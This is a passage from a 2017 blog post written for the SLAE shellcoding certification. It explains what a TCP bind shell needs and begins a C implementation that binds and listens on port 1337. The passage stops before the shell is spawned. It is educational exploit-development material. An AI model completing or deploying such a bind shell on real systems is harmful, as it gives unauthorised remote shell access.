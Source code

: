 ```yaml
---
layout: post
title: "TCP Bind Shell in Assembly (null-free/Linux x86)"
date: 2017-05-01 12:00:00
share: true
comments: true
tags: [Exploit Development, Shellcoding, SLAE, OSCE Prep]
---
```


_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)._
_**Student ID:** SLAE-885_
_**Assignment number:** 1_
_**Github repo:** <https://github.com/abatchy17/SLAE>_  

---
So I finished OSCP little over two months ago, took a healthy break and created a[ study plan for OSCE](http://www.abatchy.com/2017/03/osce-study-plan.html).

SLAE has been recommended by many and was the first item on the list as prep for OSCE, as well as to take some time and relax. To get the SLAE certificate you're required to solve seven assignments, this is the first one of them.  

## What are the requirements for a bind shell?

A bind shell requires the following:  

  1. Creates a listener (acts as a server) on a local port.
  2. Return a shell for an incoming connection.

---

## TCP bind shell in C

```cpp
#include <stdio.h>  
#include <sys/types.h>   
#include <sys/socket.h>  
#include <netinet/in.h>  
  
int host_sockid;    // sockfd for host  
int client_sockid;  // sockfd for client  
      
struct sockaddr_in hostaddr;            // sockaddr struct  
  
int main()  
{  
    // Create socket  
    host_sockid = socket(PF_INET, SOCK_STREAM, 0);  
  
    // Initialize sockaddr struct to bind socket using it  
    hostaddr.sin_family = AF_INET;  
    hostaddr.sin_port = htons(1337);  
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);  
  
    // Bind socket to IP/Port in sockaddr struct  
    bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr));  
      
    // Listen for incoming connections  
    listen(host_sockid, 2);  
  
    // Accept incoming connection, don't store data, just use the sockfd created  
```